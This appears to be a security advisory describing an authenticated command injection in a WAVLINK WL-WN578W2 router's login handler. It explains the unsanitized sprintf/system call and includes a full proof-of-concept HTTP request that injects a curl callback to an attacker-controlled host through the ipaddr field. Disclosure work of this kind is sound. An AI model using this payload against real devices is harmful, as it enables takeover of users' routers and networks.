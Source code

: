 # WAVLINK WL-WN578W2 M78W2\_V221110 Command Injection in Login Module

PS:



1.  Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device (WAVLINK WL-WN578W2) for accurate vulnerability verification.

2.  This command injection vulnerability requires **authenticated access**. The `password` parameter uses a dynamic encryption method (value changes with requests/logins), so attackers must first obtain valid credentials or a captured encrypted `password` to exploit the vulnerability.

## Overview

A command injection vulnerability exists in the login module of WAVLINK WL-WN578W2 (firmware version: M78W2\_V221110). The vulnerability resides in the `ftext` function (entry point) and `sub_401340` function (core login logic) within the `login.c` source file, which processes the `ipaddr` parameter without input sanitization. When submitting a POST request to the `/cgi-bin/adm.cgi` (a program for handling login requests on the device) endpoint with the `page=login` action, authenticated attackers can inject arbitrary system commands via the `ipaddr` parameter. This enables unauthorized execution of system commands, access to sensitive device information, or full compromise of the device.



![Vulnerability Overview Screenshot](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/](https://www.wavlink.com/) (official website)

*   **Product**: WAVLINK WL-WN578W2

*   **Firmware Version**: M78W2\_V221110 (Software version: M78W2\_V221110)

*   **Firmware Download**: Available via WAVLINK official website or device web management interface

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, a program for processing device login requests)

*   **Vulnerable Code**:


    *   `ftext` function in `login.c` (handles login request entry logic)

    *   `sub_401340` function in `login.c` (constructs and executes system commands)

*   **Vulnerability Type**: Command Injection

*   **CVE ID**: Pending

*   **Impact**:

1.  Execute arbitrary system commands on the device;

2.  Read sensitive files (e.g., device configuration, stored credentials);

3.  Modify device settings or plant malicious scripts;

4.  Pivot to internal networks (if the device acts as a gateway)

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability stems from improper input validation in the device’s login processing workflow. The `ipaddr` parameter—controlled by the user—is directly concatenated into a system command without filtering special characters, leading to command injection. Below is the detailed code flow and root cause analysis:

#### 1. Request Entry & Input Parsing (`ftext` Function)

The `ftext` function is the entry point for handling login-related requests, with key execution steps:



*   **Referer Check**: First calls `sub_403EDC` to verify the `HTTP_REFERER` header (to prevent cross-origin request forgery), but this does not block subsequent command injection.

*   **Request Body Reading**: Retrieves the `CONTENT_LENGTH` header to determine the size of the POST request body, allocates memory via `malloc`, and reads the entire request body into a buffer (`v6`) using `fgets`.

*   **Parameter Routing**: Parses the `page` parameter from the request body via `sub_4036B4` (a custom parameter-parsing function). When `page=login` (indicating a login action), the function invokes `sub_401340(v6, 0x400000)` to process core login logic, passing the full request body (containing `ipaddr`, `username`, `password`, etc.) to `sub_401340`.

#### 2. Core Login Logic & Command Injection (`sub_401340` Function)

The `sub_401340` function handles credential verification and post-login configuration, and contains the vulnerable code segment:



*   **Parameter Parsing**: Extracts the `ipaddr` parameter from the input buffer (passed by `ftext`) using `sub_4036B4("ipaddr", a1, 0)`, and stores the parsed value in the `v9` variable.

*   **Credential Verification**: Compares the encrypted `password` parameter from the request with the device’s stored credentials (retrieved via `wlink_uci_get_value`). Only after successful verification does the function proceed to the command construction step.

*   **Vulnerable Command Construction**: After passing credential checks, the function constructs a system command using `sprintf` and executes it via `system`:



```
memset(v35, 0, sizeof(v35));

// Concatenate "ipaddr" (v9) directly into the command string

sprintf(v35, "/sbin/applogin.sh del %s >/dev/null 2>&1", v9);&#x20;

system(v35); // Execute the unsanitized command
```



*   **Root Cause**: The `ipaddr` parameter (`v9`) is not filtered for command delimiters (e.g., `;` for command separation, `&&` for logical AND, `|` for pipe, `#` for comment). Attackers can use these delimiters to "break out" of the original `applogin.sh`` del` command context and append arbitrary malicious commands.



![Disassembly Snippet 1: Vulnerable Code Path](./imgs/2.png)



![Disassembly Snippet 2: Command Construction Flow](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` Command to Verify Execution

This PoC uses the `ipaddr` parameter to inject a `curl` command, which sends a request to an attacker-controlled server—proving successful command execution. A **valid encrypted **`password` (captured via legitimate login) is required.

#### Full PoC HTTP Request



```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 300
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

newUI=1&page=login&username=admin&langChange=0&ipaddr=%3A%3Affff%3A192.168.10.154;curl http://192.168.10.154:1234#&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&wizardpage=wizard.shtml&hostname=192.168.10.1&key=M55373357&password=a870e4ba57ee340c2c29f6e7dbd17abb&lang_select=cn
```

#### PoC Execution Results



*   **Failure (Wrong Password Hash)**: If the `password` parameter uses an invalid/incorrect encrypted hash, the device rejects the login request before reaching the command execution step. No `curl` request is sent to the attacker’s server, and the PoC fails.



![PoC Result: Wrong Password Hash (Failure)](./imgs/4.png)



*   **Success (Right Password Hash)**: If the `password` parameter uses a valid encrypted hash, the device passes credential verification, executes the injected `curl` command, and the attacker’s server records the request.



![PoC Result: Right Password Hash (Success)](./imgs/5.png)

